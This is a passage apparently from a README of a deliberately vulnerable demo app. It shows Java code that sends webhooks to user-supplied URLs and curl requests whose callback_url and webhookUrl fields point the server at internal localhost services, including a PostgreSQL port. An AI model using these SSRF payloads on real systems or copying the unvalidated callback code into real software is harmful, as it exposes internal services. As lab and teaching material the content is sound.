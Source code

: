 ```java
        conn.getOutputStream().write(payload.getBytes());
        int responseCode = conn.getResponseCode();
        System.out.println("Webhook sent to " + webhookUrl + " - Response: " + responseCode);
    } catch (Exception e) {
        System.err.println("Webhook failed: " + e.getMessage());
    }
}
```

---

## 🧪 **Testing SSRF Vulnerabilities**

### **Test 1: Purchase Callback Attack**
```bash
# Normal purchase request
curl -X POST http://172.20.10.2/api/inventory/purchase \
  -H "Content-Type: application/json" \
  -d '{
    "product_id": 1,
    "size": "M",
    "quantity": 1,
    "callback_url": "http://localhost:8081/api/users"
  }'

# Expected: Inventory reduced + Server sends GET to localhost:8081
```

**Frontend Demo:**
1. Navigate to product detail page
2. Click "🔓 SSRF Demo: Purchase with Callback"
3. Click "Generate Random SSRF Payload"
4. Click "Purchase (with SSRF)"
5. Check inventory-service logs for callback request

---

### **Test 2: User Registration Webhook Attack**
```bash
# Malicious registration with webhook
curl -X POST http://172.20.10.2/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "attacker",
    "email": "attacker@evil.com",
    "password": "password123",
    "webhookUrl": "http://localhost:5433"
  }'

# Expected: User created + Server sends POST to localhost:5433 (PostgreSQL port)
```
